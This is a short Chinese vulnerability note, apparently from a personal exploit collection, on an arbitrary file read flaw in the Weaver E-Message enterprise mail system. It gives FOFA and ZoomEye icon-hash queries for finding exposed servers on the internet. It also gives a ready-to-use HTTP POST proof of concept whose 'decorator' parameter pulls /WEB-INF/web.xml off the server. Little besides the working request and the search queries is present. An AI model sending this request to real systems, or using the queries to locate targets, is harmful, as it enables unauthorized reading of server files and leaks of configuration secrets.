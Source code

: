 # e-message管理页面文件读取漏洞

## 漏洞描述

泛微E-Message是一款企业邮件系统，任意文件读取漏洞通常是指通过漏洞可以访问服务器上的任意文件，这可能导致敏感信息泄露。

![image-20240423230501202](D:\safe\SafeStudy\锦囊\漏洞库\vulset\任意文件操作\assets\image-20240423230501202.png)

## 网空引擎

**FOFA:** icon_hash="-1477694668"

**zoomeye:** iconhash: "-1477694668"

![image-20240423230441788](D:\safe\SafeStudy\锦囊\漏洞库\vulset\任意文件操作\assets\image-20240423230441788.png)

![image-20240423232239648](D:\safe\SafeStudy\锦囊\漏洞库\vulset\任意文件操作\assets\image-20240423232239648.png)

## POC

```
POST / HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Length: 43
Cache-Control: max-age=0
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate

decorator=%2FWEB-INF%2Fweb.xml&confirm=true
```

